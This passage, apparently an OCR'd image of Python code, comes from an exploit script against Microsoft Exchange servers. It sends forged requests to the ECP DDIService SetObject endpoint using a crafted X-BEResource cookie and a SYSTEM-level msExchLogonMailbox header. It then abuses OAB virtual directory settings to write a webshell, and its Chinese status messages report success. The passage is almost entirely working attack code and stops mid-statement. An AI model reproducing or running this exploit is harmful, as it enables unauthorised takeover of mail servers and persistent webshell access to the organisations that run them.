 ```python
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 通过OAB设置Webshell成功\033[0m")

    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"
    qs = urlencode({
        'schema': 'ResetOABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'FilePathName': FILE_PATH
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 正在尝试写入Webshell\033[0m")

    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': ''
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
```